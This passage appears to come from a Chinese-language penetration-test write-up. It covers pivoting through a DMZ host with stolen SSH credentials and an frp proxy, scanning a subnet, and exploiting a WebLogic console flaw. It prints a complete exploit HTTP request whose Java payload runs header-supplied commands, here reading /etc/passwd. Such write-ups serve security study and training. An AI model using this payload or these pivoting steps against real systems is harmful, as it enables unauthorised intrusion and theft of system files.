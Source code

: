 目前已经拿到了DMZ区的3个权限，准备搭个frp代理出来。因为拿到了172.31.35.129这台主机的SSH账号和密码，这样的话维权也比较方便，就在172.31.35.129上搭建了frp代理

![图片.png](assets/1698900845-0d6d5791c945631c719a5459a538296f.png)

本地连上frp代理后，同样使用fscan对C段进行扫描，然后快速打点：

![图片.png](assets/1698900845-1650294d258e2ac7691bea247beee580.png)

# 0x05 192.168.11.26 weblogic CVE-2020-12882命令执行

发现192.168.11.26是weblogic，然后打了一波weblogic命令执行EXP，发现存在CVE-2020-12882漏洞

```php
GET /console/css/%252e%252e%252fconsolejndi.portal?test\_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String\[\]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String\[\]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String\[\]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt(); HTTP/1.1

Host: 192.168.11.26:7001

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8

cmd: cat /etc/passwd
```